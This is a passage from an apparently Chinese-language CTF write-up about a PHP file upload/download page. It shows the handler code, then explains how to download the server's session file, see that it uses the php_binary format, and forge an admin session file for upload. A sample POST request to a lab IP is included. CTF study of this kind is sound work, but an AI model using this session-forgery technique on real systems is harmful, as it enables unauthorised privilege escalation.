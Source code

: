 ```
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $upload_result = $e->getMessage();
    }
} elseif ($direction === "download") {
    try{
        $filename = basename(filter_input(INPUT_POST, 'filename'));
        $file_path = $dir_path."/".$filename;
        if(preg_match('/(../|..\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        if(!file_exists($file_path)) {
            throw new RuntimeException('file not exist');
        }
        header('Content-Type: application/force-download');
        header('Content-Length: '.filesize($file_path));
        header('Content-Disposition: attachment; file');
        if(readfile($file_path)){
            $download_result = "downloaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $download_result = $e->getMessage();
    }
    exit;
}
?>
```

        这是一个存在上传和下载文件的功能的文件，只有当`$_SESSION['username'] ==='admin'` 才能获取 `flag`。我们可以通过下载查看 `session` 文件所使用的存储引擎，然后通过相同的存储引擎伪造为 `admin`，上传 `session` 文件 ，获取 `flag`。

        首先下载 `session` 文件，文件名为 `sess_PHPSESSID`

```
http://192.168.100.16/index.php 

post:direction=download&filename=sess_qq7ucpov7ulvt1qsji3pueea2i
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT0sWuXTXqbzc9VyqXCzFxfTezjhzEt2r5k5iavhw1ApFibkcQwAIicObz9mekzkrxcBm4iaNZAkb7bTw/640?wx_fmt=png)

可知使用的是 `php_binary` , 内容为：

```
<0x08>usernames:5:"guest";
```

猜测我们只要上传一个 `session` 文件内容为：

```
<0x08>usernames:5:"admin";
```
